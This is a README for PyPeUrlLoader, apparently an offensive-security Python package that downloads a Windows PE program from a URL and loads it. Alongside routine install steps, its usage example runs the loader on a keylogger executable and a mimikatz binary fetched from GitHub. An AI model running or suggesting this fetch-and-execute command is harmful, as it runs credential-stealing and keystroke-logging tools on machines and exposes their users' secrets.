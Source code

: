 ![PyPeUrlLoader Logo](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader_small.png "PyPeUrlLoader logo")

# PyPeUrlLoader

## Description

This package uses PyPeLoader to load a PE program from a HTTP server
(from an URL).

## Requirements

This package require:
 - python3
 - python3 Standard Library

## Installation

### Pip

```bash
python3 -m pip install PyPeUrlLoader
```

### Git

```bash
git clone "https://github.com/mauricelambert/PyPeUrlLoader.git"
cd "PyPeUrlLoader"
python3 -m pip install .
```

### Wget

```bash
wget https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

### cURL

```bash
curl -O https://github.com/mauricelambert/PyPeUrlLoader/archive/refs/heads/main.zip
unzip main.zip
cd PyPeUrlLoader-main
python3 -m pip install .
```

## Usages

### Command line

```bash
PyPeUrlLoader              # Using CLI package executable
python3 -m PyPeUrlLoader   # Using python module
python3 PyPeUrlLoader.pyz  # Using python executable
PyPeUrlLoader.exe          # Using python Windows executable

PyPeUrlLoader https://github.com/mauricelambert/NimKeylogger/releases/download/v0.0.1/Keylogger.exe https://github.com/ParrotSec/mimikatz/raw/refs/heads/master/x64/mimikatz.exe
```

## Links

 - [Pypi](https://pypi.org/project/PyPeUrlLoader)
 - [Github](https://github.com/mauricelambert/PyPeUrlLoader)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.html)
 - [Python executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.pyz)
 - [Python Windows executable](https://mauricelambert.github.io/info/python/security/PyPeUrlLoader.exe)

## License

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
